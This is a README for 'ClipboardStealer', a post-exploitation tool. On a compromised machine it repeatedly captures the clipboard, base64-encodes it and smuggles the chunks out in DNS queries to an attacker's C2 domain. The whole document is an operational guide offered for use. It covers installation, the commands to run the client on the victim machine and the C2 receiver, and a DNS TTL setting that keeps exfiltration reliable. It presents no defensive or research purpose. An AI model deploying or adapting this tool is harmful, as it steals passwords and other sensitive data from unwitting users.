 # ClipboardStealer

Clipboard can contain everything from passwords to possible critical data. 
This tool is quite simple, light, and it does only one thing (so far) that is stealing whatever a compromised machine has on clipboard. it can be used post exploitation for Windows,macOS, or Linux machines
It periodically captures the contents of the clipboard, encodes the data into a DNS payload, and sends hidden in a DNS query -type A- to your C2 server. 

## Prerequisites

You can install ClipboardStealer python requirements via:

`pip3 install -r requirements.txt`

Or you can directly use clipboardHost.exe if you're targeting Windows environment

## How does it work

The code pastes whatever is in the clipboard, encodes it, splits it into small chunks and packs it in DNS record -type A- which will eventually land in your C2. Here's a breakdown of the flow:

- Clipboard contents are encoded to base64
- Encoded data is then broken into small chunks
- Each chunk is packed into a DNS query. Here's an example

![img_1.png](img_1.png)

Now this query will be sent through any public DNS server (I am using `8.8.8.8` in client.py) which in turn will send request to your c2 DNS server `shahin.com` 

- On your C2, query will be split and qname (payload) will be decoded and re-assembled which will eventually save stolen clipboard data in a file 

![img_2.png](img_2.png)

This happens every 15 minutes, it only sends data if the content is different from last time it was sent


## Usage

1. Install the required dependencies as mentioned in prerequisites

2. On your C2, run c2.py 
Don't forget to set file_path (where you want data to be saved) 

3. On compromised machine, run the program by executing the `client.py` script:
`python clipboard_sender.py 'example.com'`

Where: 
- example.com: Your C2 domain address

4. If you are using the .exe you can run it by running the following command:
`clipboardhost.exe example.com`

5. Now you're all set! it will continuously monitor the clipboard for changes and send the data in the clipboard to the C2 server every 15 minutes (Depending on the frequency the user updates his clipboard)

## Important Note

Set caching time on your DNS server (TTL) to less than the frequency of this tool (in our case 15 minutes) this will make sure that requests arrive fully to your domain server (C2) 